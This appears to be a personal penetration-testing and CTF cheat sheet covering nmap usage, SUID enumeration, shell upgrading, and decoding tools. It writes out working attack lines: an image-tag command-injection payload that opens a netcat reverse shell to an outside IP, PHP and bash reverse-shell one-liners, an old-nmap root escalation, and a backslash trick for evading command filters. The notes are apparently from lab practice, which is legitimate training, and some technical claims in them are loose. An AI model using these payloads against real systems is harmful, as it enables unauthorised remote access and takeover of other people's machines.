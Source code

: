 *
-sC flag in nmap runs a set of default NSE scripts, some of them are intrusive so this should not be run against real machines.

*
-A flag means agressive. It consists of 
-A: Enable OS detection, version detection, script scanning, and traceroute

*
nmap run without sudo does TCP scan (-sT) and with sudo SYN scan (-sS). SYYN scan is better as it is a stealth one - sends RST flag to server so it avoids getting detected by firewall (for example). On the other side, it can destabilize weak applications on a server .

*
To check if there is a nse script for X service:
`grep "X" /usr/share/nmap/scripts/script.db`

*
Getting rev shell when there is a chance to write a comment
<img src=http://10.6.46.150/$(nc.traditional$IFS-e$IFS/bin/bash$IFS'10.6.46.150 '$IFS'4444')>

 

#### SPAWNING INTTERACTING SHELL WITH PYTHON
python3 -c 'import pty;pty.spawn("/bin/bash")'   


#### GETTING A LIST OF SUID FILES
find / -perm -u=s -type f 2>/dev/null
---> finds all binaries with suuid permission

#### link to access a modified WP theme (to get rev shell)
http://10.10.142.159/wp-content/themes/twentyfifteen/404.php 


# if there is a filtering, it is needed to add command in backslashes e.g `l\s -la`


# PHP REV SHELL ONE LINER
php -r '$sock=fsockopen("10.6.46.150",4444);exec("/bin/sh -i <&3 >&3 2>&3");'

# BASH REV SHELL ONELINER
bash -i &>/dev/tcp/10.6.46.150/4444 <&1


# There are many different converters to john format
bin2john / zip2john / gpg2john 

#
7z is a file to extract

#
binwalk -->> tool to check of there is a zip file inside .png image
`binwalk -e file`

# NMAP SHELL
old version of nmap can be used to escalate to root
nmap --versiob
nmap --interactive
and then `!sh`

#
BRAINFUCK decoder

https://www.splitbrain.org/_static/ook/

++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>>++++++++++++++.------------.+++++.>+++++++++++++++++++++++.<<++++++++++++++++++.>>-------------------.---------.++++++++++++++.++++++++++++.<++++++++++++++++++.+++++++++.<+++.+.>----.>++++.

#
XOR DECODER

http://xor.pw/#

#
SPEECH TO TEXT CONVERTER

https://speech-to-text-demo.ng.bluemix.net/
